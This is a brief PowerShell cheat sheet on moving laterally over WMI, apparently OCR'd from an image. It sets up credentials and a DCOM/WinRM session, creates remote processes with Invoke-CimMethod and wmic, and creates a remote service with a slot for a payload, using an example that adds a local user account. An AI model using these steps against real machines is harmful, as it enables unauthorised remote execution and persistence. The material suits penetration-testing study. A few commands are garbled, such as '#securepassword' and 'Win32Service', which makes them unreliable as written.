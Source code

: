 ## 1: Connect to WMI through Powershell

#### 1) $username= 'Administrator';
#### 2) $password= 'PASSWORD';
#### 3) #securepassword = ConvertTo-SecureString $password -AsPlaintext -Force;
#### 4) $credential = New-Object System.Management.Automation.PSCredential $username, $securepassword;

## 2: Establish WMI Session

### Protocols:

### 1) DCOM: RPC over IP. Ports: 135/TCP, 49152-65535/TCP

### 2) Wsman: WinRM. Ports: 5985/TCP (WinRM HTTP), 5986/TCP (WinRM HTTPS) 

## 3: WMI Through Powershell

#### 1) $Opt = New-CimSessionOption -Protocol DCOM

#### 2) $Session = New-CimSession -ComputerName TARGET -Credential $credential -sessionOption $Opt -ErrorAction Stop

## 4: Remote Process Creation (WMI)

### Ports: 135/TCP, 49152-65535/TCP, 5986/TCP, 5986/TCP

### Group Memberships: Administrators

#### 1) $Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value jimmywsahere";

####  2) Invoke-CimMethod -CimSession $session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $Command}

### Legacy Systems

#### wmic.exe /user:Administrator /password:PASSWORD /node:TARGET process call create "cmd.exe /c calc.exe"

## 5: Remote Service Creation (WMI)

### Ports: 135/TCP, 49152-65535/TCP (DCERPC) 5985/TCP or 5986/TCP

### Group Memberships: Administrators

#### 1) Invoke-CimMethod -CimSession $session -ClassName Win32Service -MethodName Create -Arguments @{

#### Name = "service";

#### DisplayName = "service";

#### PathName = "net user USER PASSWORD /ADD" (INSERT YOUR PAYLOAD HERE)

#### ServiceType = [byte]::parse("16"); (Win32OwnProcess: Start service in a new process)

#### StartMode = "Manual"

#### }

